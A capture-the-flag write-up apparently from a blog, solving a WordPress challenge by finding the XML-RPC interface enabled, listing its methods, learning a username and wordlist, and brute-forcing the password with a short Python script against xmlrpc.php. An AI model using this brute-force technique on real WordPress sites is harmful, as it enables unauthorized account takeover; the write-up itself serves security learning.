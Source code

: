 ```yaml
---
layout: post
title:  "HZVII - $uper $ecure WP Blog"
author: "PsycoR"
tags: HZVII web
---
```

## Description

>  WordPress accounted for 90% of all hacked CMS sites in 2018, some WordPress features should be disabled or removed completely if it is not being used to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.

Task link : http://51.83.41.116/




## Steps
- The first thought that comes to mind is to try access default login interface of wordpress but Oops you can not

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp0.png)

- The source code shows that we need to be authenticated to get the flag, so how to authenticate without login interface ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp1.png)

- Simple scan with wpscan shows that the XML-RPC Interface is enabled

>In wp challenges people generally think about vulnerable plugins which is not the case here so what is XML-RPC ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp2.png)

>XML-RPC on WordPress is actually an API or “application program interface“. It gives developers who make mobile apps, desktop apps and other services the ability to talk to your WordPress site. The XML-RPC API that WordPress provides gives developers a way to write applications (for you) that can do many of the things that you can do when logged into WordPress via the web interface. These include: Publish a post Edit a post Delete a post. Upload a new file (e.g. an image for a post) Get a list of comments Edit comments

- List available methods

> The first thing to do now is send a POST request and list all the available methods , why ? cause that’s how we’ll know which actions are even possible to make and potentially use one of them for an attack. 

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp3.png)


- Interresting method founded demo.getFlag

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp4.png)

> The flag is not here :'(

- Digging deeper for availible methods

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp5.png)

> A dictionnary link was founded in the method getFavouriteWords, maybe we need it later

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp6.png)
 
> Another method wp.getFlag seems interresting

- Call wp.getFlag

> The request need more arguements certainly the user & password :)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp7.png)


- The user who posted the first article in the blog is psycor

> We know our user ;)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp8.png)

- Now it's time to bruteforce the password using the dictionary previously founded

> We can differentiate successful credentials by response length.

```python
import requests


headers = {'Content-Type': 'text/xml'}

cracklist = open("dic.txt", "r")
for password in cracklist.readlines():
	password = password.strip("\n")
	xml = """<methodCall>
<methodName>wp.getFlag</methodName>
<params>
<param><value>psycor</value></param>
<param><value>"""+password+"""</value></param>
</params>
</methodCall>"""
	response = requests.post('http://51.83.41.116/xmlrpc.php', data=xml, headers=headers)
	if len(response.content) != 403:
		print("Password Founded:= "+password)
		print(response.text)
		break

```

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp9.png)

> The flag is : HZVII{50m371m35_xml_rpc_15_d4n63r0u5}





